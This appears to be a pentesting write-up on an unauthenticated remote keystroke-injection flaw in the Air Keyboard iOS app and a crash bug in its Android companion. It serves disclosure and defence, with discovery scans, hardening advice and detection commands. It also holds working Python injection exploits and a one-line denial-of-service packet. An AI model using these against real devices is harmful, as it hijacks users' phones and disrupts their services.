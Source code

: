 # Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)

## TL;DR

The iOS version of the commercial **“Air Keyboard”** application (App Store ID 6463187929) exposes a local-network service that **accepts keystroke frames without any authentication or origin verification**. Depending on the version installed the service is either:

* **≤ 1.0.4**  – raw TCP listener on **port 8888** that expects a 2-byte length header followed by a *device-id* and the ASCII payload.
* **≥ 1.0.5 (June 2025)**  – **WebSocket** listener on the *same* port (**8888**) that parses **JSON** keys such as `{"type":1,"text":"…"}`.

Any device on the same Wi-Fi / subnet can therefore **inject arbitrary keyboard input into the victim’s phone, achieving full remote interaction hijacking**.  
A companion Android build listens on **port 55535**. It performs a weak AES-ECB handshake but crafted garbage still causes an **unhandled exception inside OpenSSL**, crashing the background service (**DoS**).

> The vulnerability is **still unpatched at the time of writing (July 2025)** and the application remains available in the App Store.

---

## 1. Service Discovery

Scan the local network and look for the two fixed ports used by the apps:

```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24  

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```

On Android handsets you can identify the responsible package locally:

```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```

On **jailbroken iOS** you can do something similar with `lsof -i -nP | grep LISTEN | grep 8888`.

---

## 2. Protocol Details (iOS)

### 2.1  Legacy (≤ 1.0.4) – custom binary frames

```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```

The declared *length* includes the `device_id` byte **but not** the two-byte header itself.

### 2.2  Current (≥ 1.0.5) – JSON over WebSocket

Version 1.0.5 silently migrated to WebSockets while keeping the port number unchanged. A minimal keystroke looks like:

```json
{
  "type": 1,              // 1 = insert text, 2 = special key
  "text": "open -a Calculator\n",
  "mode": 0,
  "shiftKey": false,
  "selectionStart": 0,
  "selectionEnd": 0
}
```

No handshake, token or signature is required – the first JSON object already triggers the UI event.

---

## 3. Exploitation PoC

### 3.1  Targeting ≤ 1.0.4 (raw TCP)

```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
    s.sendall(frame)
print("[+] Injected", keystrokes)
```

### 3.2  Targeting ≥ 1.0.5 (WebSocket)

```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client`

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
    "type": 1,
    "text": "https://evil.example\n",
    "mode": 0,
    "shiftKey": False,
    "selectionStart": 0,
    "selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```

*Any printable ASCII — including line-feeds, tabs and most special keys — can be sent, giving the attacker the same power as physical user input: launching apps, sending IMs, opening malicious URLs, toggling settings, etc.*

---

## 4. Android Companion – Denial-of-Service

The Android port (55535) expects a **4-character password encrypted with a hard-coded AES-128-ECB key** followed by a random nonce.  Parsing errors bubble up to `AES_decrypt()` and are not caught, terminating the listener thread.  A single malformed packet therefore suffices to keep legitimate users disconnected until the process is relaunched.

```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```

---

## 5. Related Apps – A Recurring Anti-Pattern

Air Keyboard is **not an isolated case**. Other mobile “remote keyboard/mouse” utilities have shipped with the very same flaw:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78  allow unauthenticated command execution and plain-text key-logging.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80  unauthenticated RCE & traffic snooping.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83  default-no-password, weak PIN brute-force and clear-text leakage.

These cases highlight a systemic neglect of **network-facing attack surfaces on mobile apps**.

---

## 6. Root Causes

1. **No origin / integrity checks** on incoming frames (iOS).
2. **Cryptographic misuse** (static key, ECB, missing length validation) and **lack of exception handling** (Android).
3. **User-granted Local-Network entitlement ≠ security** – iOS requests runtime consent for LAN traffic, but it doesn’t substitute proper authentication.

---

## 7. Hardening & Defensive Measures

Developer recommendations:

* Bind the listener to **`127.0.0.1`** and tunnel over **mTLS** or **Noise XX** if remote control is needed.
* Derive **per-device secrets during onboarding** (e.g., QR code or Pairing PIN) and enforce *mutual* authentication before processing input.
* Adopt **Apple Network Framework** with *NWListener* + TLS instead of raw sockets.
* Implement **length-prefix sanity checks** and structured exception handling when decrypting or decoding frames.

Blue-/Red-Team quick wins:

* **Network hunting:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` or Wireshark filter `tcp.port == 8888`.
* **Runtime inspection:** Frida script hooking `socket()`/`NWConnection` to list unexpected listeners.
* **iOS App Privacy Report (Settings ▸ Privacy & Security ▸ App Privacy Report)** highlights apps that contact LAN addresses – useful for spotting rogue services.
* **Mobile EDRs** can add simple Yara-L rules for the JSON keys `"selectionStart"`, `"selectionEnd"` inside clear-text TCP payloads on port 8888.

---

## Detection Cheat-Sheet (Pentesters)

```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
  | awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
  echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```

---

## References

- [Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 Remote Input Injection](https://www.exploit-db.com/exploits/52333)  
- [Mobile-Hacker Blog (17 Jul 2025) – Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)

